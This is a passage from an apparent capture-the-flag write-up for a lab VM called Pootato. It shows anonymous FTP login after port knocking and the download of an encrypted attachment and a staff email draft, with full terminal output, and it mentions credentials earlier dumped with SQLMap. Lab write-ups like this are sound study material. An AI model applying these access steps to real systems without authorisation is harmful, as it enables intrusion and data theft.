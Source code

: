     As port 21 (ftp) is open, the [Port Knocking](https://wiki.archlinux.org/title/Port_knocking) was a success.

22) Since the ftp port is open, I decided to try to access the Pootato VM via the ftp port. Howevever, attempts to login via ftp with the student credentials obtained from the output of [SQLMap](https://github.com/sqlmapproject/sqlmap) was unsuccessful, I decided to find other ways to login via ftp. Searching online, I found out that it might be possible to log into the ftp server as an `anonymous` user, which I attempted to do so & gained access.

    ```
    ┌──(ctf)─(kali㉿kali)-[~]
    └─$ ftp 192.168.233.137
    Connected to 192.168.233.137.
    220 (vsFTPd 3.0.3)
    Name (192.168.233.137:kali): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> 
    ```

    Upon gaining access, as I know that there are 2 types of ftp connection modes, I decided to go with the passive mode & explore the files in the ftp server. Using the `ls` command, I can see that the `Drafts` directory is available. Accessing the `Drafts` directory & using the `ls` command, it showed that the following files were present in the `Drafts` directory: `Encrypted_Attachment.dat` & `staff_email_draft.txt`. Using the `get` command, I downloaded the files into my [Kali Linux](https://www.kali.org/) machine.

    ```
    ftp> passive
    Passive mode: off; fallback to active mode: off.
    ftp> cd Drafts
    250 Directory successfully changed.
    ftp> ls
    200 EPRT command successful. Consider using EPSV.
    150 Here comes the directory listing.
    -r-xr-xr-x    1 119      128            58 Nov 05 17:20 Encrypted_Attachment.dat
    -r-xr-xr-x    1 119      128           759 Nov 05 09:18 staff_email_draft.txt
    226 Directory send OK.
    ftp> get Encrypted_Attachment.dat
    local: Encrypted_Attachment.dat remote: Encrypted_Attachment.dat
    200 EPRT command successful. Consider using EPSV.
    150 Opening BINARY mode data connection for Encrypted_Attachment.dat (58 bytes).
    100% |**********************************************************|    58        2.78 KiB/s    00:00 ETA
    226 Transfer complete.
    58 bytes received in 00:00 (2.60 KiB/s)
    ftp> get staff_email_draft.txt
    local: staff_email_draft.txt remote: staff_email_draft.txt
    200 EPRT command successful. Consider using EPSV.
    150 Opening BINARY mode data connection for staff_email_draft.txt (759 bytes).
    100% |**********************************************************|   759      336.91 KiB/s    00:00 ETA
    226 Transfer complete.
    759 bytes received in 00:00 (213.48 KiB/s)
    ftp>
    ```
